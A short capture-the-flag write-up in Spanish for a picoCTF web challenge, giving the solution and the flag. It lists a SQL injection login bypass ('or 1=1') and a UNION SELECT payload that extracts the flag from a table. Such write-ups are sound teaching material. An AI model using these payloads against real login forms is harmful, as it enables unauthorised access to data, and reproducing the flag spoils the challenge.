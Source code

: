 Can you find the flag on this website.

Additional details will be available after launching your challenge instance.
__________
## Hints
SQLiLite
________
## Solucion

```
Entrar a la pagina:

User: admin ' or 1=1-- -
Password: admin ' or 1=1-- -

Ingresar:

hola' union select flag,id,1 from more_table;--

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}
```
